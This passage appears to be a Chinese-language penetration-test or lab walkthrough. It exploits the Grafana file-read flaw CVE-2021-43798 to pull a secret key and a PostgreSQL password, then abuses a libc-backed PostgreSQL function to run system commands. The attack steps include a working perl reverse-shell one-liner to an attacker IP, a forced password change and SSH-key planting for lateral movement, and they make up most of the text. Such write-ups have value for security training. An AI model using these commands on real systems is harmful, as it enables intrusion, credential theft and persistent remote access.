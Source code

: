 需要利用 CVE-2021-43798 漏洞获取到数据库文件（/var/lib/grafana/grafana.db）以及存在解密密钥的配置文件（/etc/grafana/grafana.ini），然后进行解密。

使用 [A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp) 可以一键利用漏洞解密输出 data_souce 信息，这里我用mac跑的时候报错了，可以上传到fastjson的机器上运行

```
root@web03:~# ./grafanaExp_linux_amd64 exp -u http://172.30.54.12:3000
2023/12/29 17:41:34 Target vulnerable has plugin [alertlist]
2023/12/29 17:41:34 Got secret_key [SW2YcwTIb9zpOOhoPsMm]
2023/12/29 17:41:34 There is [0] records in db.
2023/12/29 17:41:34 type:[postgres]     name:[PostgreSQL]               url:[localhost:5432]    user:[postgres] password[Postgres@123]database:[postgres]      basic_auth_user:[]      basic_auth_password:[]
2023/12/29 17:41:34 All Done, have nice day!
```

PostgreSQL 8.1 及之前版本执行系统命令可以直接使用 Linux 中的 libc.so.6 文件，本来想用MDUT直接执行，但是不知道为什么我的一直报错，就用navicat来执行，猜测一下libc.so.6的路径

一般为如下几个位置：

- `/lib/x86_64-linux-gnu/libc.so.6`
- `/lib/libc.so.6`
- `/lib64/libc.so.6`
- `/usr/lib/x86_64-linux-gnu/libc.so.6`
- `/usr/lib32/libc.so.6`

用navicat连接

```
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;

select system('whoami');
#	看不到回显

# 给fastjson的机器上传一个nc，用perl反弹shell
select system('perl -e \'use Socket;$i="172.30.54.179";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'');
```

这里还需要给postgresql的root用户进行修改密码的操作，为了方便后面提权

```
ALTER USER root WITH PASSWORD '123456';
```

给fastjson的机器写入了sshkey

![QQ_1723645846849](images/24.png)
